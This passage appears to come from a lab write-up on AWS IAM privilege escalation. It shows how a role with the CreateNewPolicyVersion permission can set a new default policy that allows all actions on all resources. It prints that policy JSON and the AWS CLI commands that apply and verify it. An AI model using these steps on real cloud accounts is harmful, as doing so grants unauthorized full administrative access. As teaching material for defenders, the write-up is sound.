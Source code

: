 
Looking at the output of the last command in the above image, it can be seen that this policy grants the `CreateNewPolicyVersion` permissions for **All (*)** resources. Now we can abuse these permissions since this policy is attached to the `privesc1-CreateNewPolicyVersion-role` role, which we can assume.

### Privilege Escalation
We can quickly create a custom policy document that permits all AWS actions on all resources:

```json
{
   "Version": "2012-10-17",
   "Statement": [
       {
           "Sid": "AllowEverything",
           "Effect": "Allow",
           "Action": "*",
           "Resource": "*"
       }
    ]
 }
```

Now, after assuming the target role, which in this case was `privesc1-CreateNewPolicyVersion-role`, we can create a new version of the policy document applied to the role itself:

```bash
aws iam create-policy-version --policy-arn arn:aws:iam::xxxxxxxxxxxx:policy/privesc1-CreateNewPolicyVersion --policy-document file:///policies/admin-policy.json --set-as-default --profile privesc1
```
![](/assets/img/posts/aws-priv-esc-01/case-01-03-Create-New-Policy-Version.png)
_Created new policy version and set it as default_

> Note the `--set-as-default` flag here. Using this flag, when a new version is created, it is also set as the default version. Otherwise, we will have to change the default version separately and for that, another permission, `iam:SetDefaultPolicyVersion`, is required (**in this case, it is not!**).
{: .prompt-info }


With this, `privesc1-CreateNewPolicyVersion-role` role (or any resource to which this policy is attached) should have full access in this AWS environment. Just for quick verification, we can get the policy document again for the same policy (but version 2 now):

```bash
aws iam get-policy-version --policy-arn arn:aws:iam::xxxxxxxxxxxx:policy/privesc1-CreateNewPolicyVersion --version-id v2
```
![](/assets/img/posts/aws-priv-esc-01/case-01-04-Get-New-Policy-Document.png)
_Getting policy document of version 2_
